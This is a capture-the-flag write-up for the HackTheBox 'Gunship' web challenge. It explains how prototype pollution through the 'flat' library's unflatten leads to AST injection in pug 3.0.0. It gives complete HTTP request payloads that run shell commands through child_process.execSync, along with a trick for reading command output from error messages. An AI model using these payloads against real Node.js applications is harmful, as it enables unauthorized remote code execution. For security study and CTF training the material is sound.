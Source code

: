 ```yaml
---
title: HTB Gunship - Writeup
date: "2021-12-27"
draft: false
tags: ["hackthebox", "challenges", "web", "js", "writeup"]
---
```


Access details -> 159.65.31.1:32618

We are provided with a website which has only one input field and we have the source code available. 

So let's go through the source code which is made available to us.

### Quick Recon
- Packages installed (`package.json`)
```json
		"dependencies": {
			"express": "^4.17.1",
			"flat": "5.0.0",
			"pug": "^3.0.0"
		}
```
- We have `pug:3.0.0` which is vulnerable to RCE.
- Source: https://github.com/pugjs/pug/issues/3312
---
- Location of vulnerability (`routes/index.js`)
```js
	const pug = require('pug');

	...
	router.post('/api/submit', (req, res) => {
	    const { artist } = unflatten(req.body);
	
		if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
			return res.json({
				'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
			});
		} else {
			return res.json({
				'response': 'Please provide us with the full name of an existing member.'
			});
		}
	});
```
- Request submitted through `/api/submit` where body of the request(`req.body`) is passed to `unflatten`.
- So we can pass our payload through the body and when it is unflattened, we can prolly get RCE.

### Exploiting the bug
- We navigate to `/` (http://159.65.31.1:32618/) and then enter some random values, intercept the request in Burp. 
- Modify the request of the body so it looks like:
```HTTP
POST /api/submit HTTP/1.1
Host: 159.65.31.1:32618
Content-Length: 170
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Content-Type: application/json
Accept: */*
Sec-GPC: 1
Origin: http://159.65.31.1:32309
Referer: http://159.65.31.1:32309/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
	"artist.name":"Haigh","__proto__.block": {
	"type": "Text", 
	"line": "process.mainModule.require('child_process').execSync('$(ls | grep flag)')"
	}
}
```
- Output:
```html
<pre>Error: Command failed: $(ls | grep flag)<br>/bin/sh: flagQLGyS: not found<br> on line 1<br>
```
*Note: We are running `$(ls |  grep flag)` instead of `ls | grep flag` because when the command executes without any error, we cannot see the output*

- Now let's `cat` the file
	- Reques bodyt:
```json
		{
			"artist.name":"Haigh","__proto__.block": {
	        "type": "Text", 
	        "line": "process.mainModule.require('child_process').execSync('$(cat flagQLGyS)')"
		    }
		}
```
	- Output:
```html
	<pre>Error: Command failed: $(cat flagQLGyS)<br>/bin/sh: HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}: not found
	<br> on line 1<br>
```
References:
- (Peak resource) https://blog.p6.is/AST-Injection/
